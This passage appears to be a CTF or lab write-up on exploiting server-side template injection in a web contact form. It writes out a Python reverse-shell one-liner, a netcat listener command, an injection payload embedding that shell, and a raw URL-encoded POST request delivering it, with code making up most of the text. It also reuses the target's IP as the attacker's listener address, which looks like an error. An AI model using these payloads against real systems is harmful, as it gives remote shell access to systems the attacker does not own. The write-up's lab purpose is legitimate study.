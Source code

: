 ### We can confirm: Code Execution is possible ✅☑️✔️

Now let's do something more malice and use a **reverse shell command**.

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

This reverse shell one-liner here written in Python 3. This is a common payload used in **CTFs, VulnHub, or penetration testing labs** when gaining code execution and attempting to establish a shell back to your attacking machine.
### 🔁 Replace `"YOUR IP"`: 192.168.56.123

Make sure to replace `"YOUR IP"` with your actual IP (e.g., `192.168.56.1` if you're on a host-only VirtualBox network), and have **Netcat** listening:

```bash
nc -lvnp 4444
```

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

```python
name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'').read()}}
```

This command does not work in practice, some kind of encoding is needed, we can use the website https://www.urlencoder.org/ to encode the payload.

#### Surprise this does not work either!... But it was worth a try! 🎁

### using curl

```
curl -X POST http://192.168.56.123/contact \
POST /contact HTTP/1.1
Host: 192.168.56.123
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 533
Origin: http://192.168.56.123
Connection: keep-alive
Referer: http://192.168.56.123/contact
Upgrade-Insecure-Requests: 1

Name={{request.application.__globals__.__builtins__.__import__%28%27os%27%29.popen%28%27python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.123%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%27%27%29.read%28%29}}&w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage

```

